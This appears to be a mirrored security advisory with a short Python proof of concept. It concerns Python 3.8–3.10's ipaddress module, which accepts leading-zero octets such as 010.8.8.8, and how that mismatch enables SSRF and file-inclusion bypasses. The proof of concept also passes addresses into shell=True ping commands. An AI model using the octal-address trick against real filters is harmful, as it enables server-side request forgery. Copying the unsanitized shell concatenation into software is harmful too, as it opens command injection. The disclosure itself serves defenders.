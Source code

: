 簡介
----

python stdlib “ipaddress” – Improper Input Validation of octal literals in python 3.8.0 thru v3.10 results in indeterminate SSRF & RFI vulnerabilities. — “ipaddress leading zeros in IPv4 address”

Improper input validation of octal strings in Python 3.8.0 thru v3.10 stdlib ipaddress allows unauthenticated remote attackers to perform indeterminate SSRF, RFI, and LFI attacks on many programs that rely on Python stdlib ipaddress. IP address octects are left stripped instead of evaluated as valid IP addresses. For example, an attacker submitting an IP address to a web application that relies on stdlib ipaddress, could cause SSRF via inputting octal input data; An attacker can submit exploitable IP addresses if the octet is 3 digits, with the minimum exploitable octect being 08 (Denial of Service) and the maximum exploitable octet is 099. For example, an attacker can submit 010.8.8.8, which is 8.8.8.8, yet Python ipaddress builtin will evaluate this as 10.8.8.8.

POC
---

Vulnerability added in python3.8

<https://github.com/python/cpython/pull/12577>

Documentated to be vulnerable in the changelog:

<https://github.com/python/cpython/blob/63298930fb531ba2bb4f23bc3b915dbf1e17e9e1/Misc/NEWS.d/3.8.0a4.rst>

    #!/usr/bin/env python
    # Authors:      sickcodes, Victor Viale
    # License:      GPLv3+
    # Reference:    https://docs.python.org/3.10/library/ipaddress.html#ipaddress.IPv4Address

    # Leading zeroes are tolerated only for values less than 8 (as there is no ambiguity between the decimal and octal interpretations of such strings).

    import subprocess
    import ipaddress

    SUSPECT = '010.8.8.8'

    print(ipaddress.ip_network(SUSPECT, strict=True))

    BAD_IP = ipaddress.ip_address(SUSPECT)

    print('http://'+str(BAD_IP))

    print(str(subprocess.check_output("ping -W3 -v -c1 "+str(SUSPECT), shell=True, universal_newlines=True).strip()))

    print(str(subprocess.check_output("ping -W3 -v -c1 "+str(BAD_IP), shell=True, universal_newlines=True).strip()))

參考
----

<https://sick.codes/sick-2021-014/>